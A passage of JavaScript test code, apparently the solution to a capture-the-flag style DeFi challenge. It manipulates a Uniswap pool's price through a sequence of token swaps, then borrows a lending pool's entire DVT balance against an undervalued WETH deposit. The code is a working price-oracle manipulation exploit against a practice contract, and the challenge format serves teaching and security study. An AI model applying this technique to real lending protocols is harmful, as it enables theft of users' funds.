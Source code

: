 ```javascript
            console.log(`[+] Deposit required to borrow ${ethers.utils.formatEther(POOL_INITIAL_TOKEN_BALANCE)} DVT: ${formatOutput(depositRequired)} WETH\n`)
        }
        
        console.log("0) Initial setup");
        await logData.call(this);


        console.log("1) swap all DVT for WETH");
        await this.token.connect(attacker).approve(this.uniswapRouter.address, ATTACKER_INITIAL_TOKEN_BALANCE)
        
        await this.uniswapRouter.connect(attacker).swapExactTokensForTokens(
            ATTACKER_INITIAL_TOKEN_BALANCE,
            0,
            [this.token.address, this.weth.address],
            attacker.address,
            deadline
        )
        await logData.call(this);


        console.log("2) swap all ETH for DVT");
        const ATTACKER_BALANCE = await provider.getBalance(attacker.address)
        await this.uniswapRouter.connect(attacker).swapExactETHForTokens(
            0,                                                          
            [this.weth.address, this.token.address],                   
            attacker.address,                                           
            deadline,   
            { value: ATTACKER_BALANCE.sub(ethers.utils.parseEther('0.1')) }
        )

        await logData.call(this);


        console.log("3) swap all DVT for WETH");
        const ATTACKER_TOKEN_BALANCE = await this.token.balanceOf(attacker.address)
        await this.token.connect(attacker).approve(this.uniswapRouter.address, ATTACKER_TOKEN_BALANCE)

        await this.uniswapRouter.connect(attacker).swapExactTokensForTokens(
            ATTACKER_TOKEN_BALANCE,
            0,
            [this.token.address, this.weth.address],
            attacker.address,
            deadline
        )

        await logData.call(this);


        console.log("4) borrow DVT");
        let depositRequired = await this.lendingPool.calculateDepositOfWETHRequired(POOL_INITIAL_TOKEN_BALANCE)

        await this.weth.connect(attacker).approve(this.lendingPool.address, depositRequired)
        await this.lendingPool.connect(attacker).borrow(POOL_INITIAL_TOKEN_BALANCE)

        await logData.call(this);

    });

```